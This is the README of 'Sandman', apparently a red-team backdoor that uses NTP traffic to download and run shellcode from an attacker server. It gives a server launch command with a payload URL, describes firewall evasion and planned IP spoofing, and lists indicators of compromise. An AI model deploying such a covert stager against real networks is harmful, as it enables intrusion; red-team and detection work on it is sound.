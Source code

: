 # Sandman

![Image](https://img.shields.io/badge/C%23-239120?style=for-the-badge&logo=c-sharp&logoColor=white") ![image](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white) ![image](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)

Sandman is a backdoor that meant to work on hardened networks during red team engagements.

Sandman works as a stager and leverages NTP (protocol to sync time & date) to get and run an arbitrary shellcode from a pre defined server.

Since NTP is a protocol that is overlooked by many defenders resulting wide network accessability.

## Usage

![sandman](images/sandman.png)

### SandmanServer (Usage)

Run on windows / *nix machine:

```sh
python3 sandman_server.py "Network Adapter" "Payload Url" "optional: ip to spoof"
```

- Network Adapter: The adapter that you want the server to listen on (for example: Ethernet for Windows, eth0 for *nix).

- Payload Url: The URL to your shellcode, it could be your agent (for example, CobaltStrike or meterpreter) or another stager.

- IP to Spoof: If you want to spoof a legitiment IP address (for example, time.microsoft.com's ip address). **TBA**

### SandmanBackdoor (Usage)

To start, you can compile the SandmanBackdoor as [mentioned below](#setup), because it is a single lightweight C# executable you can execute it via ExecuteAssembly, run it as a NTP provider **TBA** or just execute / inject it.

## Capabilities

- Getting and executing an arbitrary payload from an attacker's controlled server.

- Can work on hardened networks since NTP is usually allowed in FW.

- Impsersonating a legitiment NTP server via IP spoofing. **TBA**

## Setup

### SandmanServer (Setup)

- Python 3.9
- Requiremenets specified in the [requirements](/SandmanServer/requirements.txt) file.

### SandmanBackdoor (Setup)

To compile the backdoor itself I used Visual Studio 2022, but as mentioned in the [usage section](#usage) it can be compiled with both VS2022 and csc.

## IOCs

- A shellcode is injected to RuntimeBroker.

- Suspicious NTP communication, starts with known magic header.

## Contributes

- [Orca](https://github.com/ORCx41/)

Thanks to who already contributed and I'll happily accept contribution, make a pull request and I will review it!
